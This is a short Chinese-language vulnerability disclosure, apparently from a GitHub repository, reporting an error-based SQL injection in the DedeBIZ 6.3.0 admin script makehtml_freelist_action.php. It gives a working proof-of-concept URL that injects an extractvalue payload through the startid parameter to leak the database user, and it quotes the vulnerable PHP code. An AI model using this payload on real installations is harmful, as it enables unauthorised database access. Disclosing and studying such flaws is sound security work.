

# DedeBIZ 6.3.0  /admin/makehtml_freelist_action.php 存在报错型 SQL 注入漏洞

## 介绍

DedeBIZ 6.3.0 在 /admin/makehtml_freelist_action.php 对前端传入数据校验不全导致出现报错型 SQLI 漏洞, 对应源码可以去往官网下载 : https://www.dedebiz.com/download

## 验证

搭建环境并访问管理员后台, 访问 url  地址

```
http://IP/admin/makehtml_freelist_action.php?maxpagesize=30&startid=extractvalue(1,concat(0x7e,(select+user()),0x7e))&%19&pageno=1
```



对应的源码

```php
require_once(DEDEINC."/archive/freelist.class.php");
if (empty($startid)) $startid = 0;
$ci = " aid >= $startid ";
if (!empty($endid) && $endid >= $startid) {
    $ci .= " And aid <= $endid ";
}
header("Content-Type:text/html; charset={$cfg_soft_lang}");
$dsql->SetQuery("SELECT aid FROM `#@__freelist` WHERE $ci");
$dsql->Execute();
```

